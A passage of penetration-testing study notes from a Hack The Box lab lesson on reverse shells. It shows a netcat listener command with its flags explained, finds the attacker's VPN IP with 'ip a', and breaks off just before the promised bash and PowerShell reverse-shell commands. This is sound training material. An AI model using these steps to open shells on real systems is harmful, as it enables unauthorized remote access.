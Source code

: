 ```shell
gitblanc@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
```

The flags we are using are the following:

|Flag|Description|
|---|---|
|`-l`|Listen mode, to wait for a connection to connect to us.|
|`-v`|Verbose mode, so that we know when we receive a connection.|
|`-n`|Disable DNS resolution and only connect from/to IPs, to speed up the connection.|
|`-p 1234`|Port number `netcat` is listening on, and the reverse connection should be sent to.|

Now that we have a `netcat` listener waiting for a connection, we can execute the reverse shell command that connects to us.

#### Connect Back IP

However, first, we need to find our system's IP to send a reverse connection back to us. We can find our IP with the following command:

```shell
gitblanc@htb[/htb]$ ip a

...SNIP...

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none
    inet 10.10.10.10/23 scope global tun0
...SNIP...
```

In our example, the IP we are interested in is under `tun0`, which is the same HTB network we connected to through our VPN.

>[!Note]
>We are connecting to the IP in `tun0` because we can only connect to HackTheBox boxes through the VPN connection, as they do not have internet connection, and therefore cannot connect to us over the internet using `eth0`. In a real pentest, you may be directly connected to the same network, or performing an external penetration test, so you may connect through the `eth0` adapter or similar.

#### Reverse Shell Command

The command we execute depends on what operating system the compromised host runs on, i.e., Linux or Windows, and what applications and commands we can access. The [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.

Certain reverse shell commands are more reliable than others and can usually be attempted to get a reverse connection. The below commands are reliable commands we can use to get a reverse connection, for `bash` on Linux compromised hosts and `Powershell` on Windows compromised hosts:

